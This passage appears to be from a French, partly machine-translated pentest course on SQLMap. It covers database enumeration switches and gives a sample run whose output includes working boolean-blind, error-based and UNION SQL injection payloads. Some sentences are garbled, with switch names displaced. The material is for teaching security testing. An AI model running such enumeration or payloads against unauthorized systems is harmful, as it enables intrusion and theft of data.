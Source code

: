 Par exemple, si un utilisateur souhaite récupérer la « bannière » (switch `--banner`) de la cible basée sur le SGBD MySQL, la `VERSION()`requête sera utilisée à cette fin.\
En cas de récupération du nom d'utilisateur actuel (switch `--current-user`), la `CURRENT_USER()`requête sera utilisée.

Un autre exemple consiste à récupérer tous les noms d'utilisateur (c'est-à-dire tag `<users>`). Deux requêtes sont utilisées, selon la situation. La requête marquée comme `inband`est utilisée dans toutes les situations non aveugles (c'est-à-dire requête UNION et SQLi basé sur les erreurs), où les résultats de la requête peuvent être attendus dans la réponse elle-même. La requête marquée par `blind`, en revanche, est utilisée pour toutes les situations aveugles, dans lesquelles les données doivent être récupérées ligne par ligne, colonne par colonne et bit par bit.

* * * * *

Énumération de base des données de base de données
--------------------------------------------------

Habituellement, après une détection réussie d'une vulnérabilité SQLi, nous pouvons commencer l'énumération des détails de base de la base de données, tels que le nom d'hôte de la cible vulnérable ( ), le nom de l'utilisateur actuel ( ), le nom actuel de la base de données ( ) `--hostname`ou `--current-user`les `--current-db`hachages de mot de passe ( ). `--passwords`). SQLMap ignorera la détection SQLi si elle a été identifiée précédemment et démarrera directement le processus d'énumération du SGBD.

L'énumération commence généralement par la récupération des informations de base :

-   Bannière de version de base de données (switch `--banner`)
-   Nom d'utilisateur actuel (commutateur `--current-user`)
-   Nom de la base de données actuelle (switch `--current-db`)
-   Vérifier si l'utilisateur actuel dispose des droits DBA (administrateur).

La commande SQLMap suivante effectue tout ce qui précède :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql'
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
```